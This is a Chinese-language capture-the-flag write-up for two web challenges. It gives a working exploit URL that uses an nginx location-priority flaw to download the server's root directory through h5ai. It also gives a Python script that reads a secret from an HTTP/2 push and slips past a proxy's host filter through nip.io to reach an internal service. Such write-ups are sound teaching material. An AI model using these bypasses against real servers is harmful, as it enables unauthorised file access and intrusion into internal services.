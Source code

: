 ## 超简易的网盘服务器

访问 http://202.38.93.111:10120/Public 可以得到 nginx.conf 和 Dockerfile。访问 http://202.38.93.111:10120/Public/_h5ai/ 可以看到 h5ai 的文件夹。但是这看起来和 Dockerfile 中是一致的，甚至 h5ai 都是空密码。

仔细阅读 Dockerfile，发现根目录下也有一份 h5ai。仔细阅读 nginx.conf，其对 php 文件的处理是 `location ~`，这意味着其优先级较高，并且不再会进行后续匹配，也就是能绕过 `location /` 的鉴权。

查看 h5ai 的 php 文件，发现他有一个下载压缩包的功能，那么可以下载根目录的压缩包。POST 下面的网址即可：

```
http://202.38.93.111:10120/_h5ai/public/index.php?action=download&baseHref=&as=1.tar&type=shell-tar&hrefs=
```

## 超安全的代理服务器

页面上写着 **推送（PUSH）** 了最新的 **Secret**，搜索 http push，发现是 http2 的 feature。

可以用 Chrome dump 出 netlog，然后在里面找到 secret，但是每次操作都需要不少时间，很容易超时，不便于后续分析。

可以用 python 的 hyper 库来处理这些 http2 数据（代码见后面）。

得到合法的 secret 后，url 的限制可以使用 `www.ustc.edu.cn.x.x.x.x.nip.io:xx` 的方式绕过。然后发现端口实际应该是 8080。连上去之后，他还需要 Referer 的条件。

```python
from hyper import HTTP20Connection, tls
import ssl, socket


def get_secret():
	ssl_context = tls.init_context()
	ssl_context.check_hostname = False
	ssl_context.verify_mode = ssl.CERT_NONE

	c = HTTP20Connection('146.56.228.227:443', ssl_context=ssl_context, enable_push=True)
	c.request('GET', '/')
	resp = c.get_response()
	for x in c.get_pushes():
		r = x.get_response()
		s = r.read(1000)
		s = s[s.find(b'secret: ') + 8:]
		return s[:10].decode()


hostname = '146.56.228.227'
context = ssl._create_unverified_context()
context.veryfy_mode = ssl.CERT_NONE

with socket.create_connection((hostname, 443)) as sock:
	with context.wrap_socket(sock, server_hostname=hostname) as ssock:
		print(ssock.version())
		ssock.send(b'CONNECT www.ustc.edu.cn.127.0.0.1.nip.io:8080 HTTP/1.1\r\n')
		ssock.send(b'Secret: %s\r\n' % get_secret().encode())
		ssock.send(b'\r\n')
		s = ssock.recv(1000)
		print(s.decode('utf-8'), end='')
		s = ssock.recv(1000) + ssock.recv(1000)
		print(s.decode('utf-8'), end='')
		ssock.send(b'GET / HTTP/1.1\r\n')
		ssock.send(b'Host: 127.0.0.1\r\n')
		ssock.send(b'Referer: 146.56.228.227\r\n')
		ssock.send(b'User-Agent: curl\r\n')
		ssock.send(b'\r\n')
		s = ssock.recv(1000)
```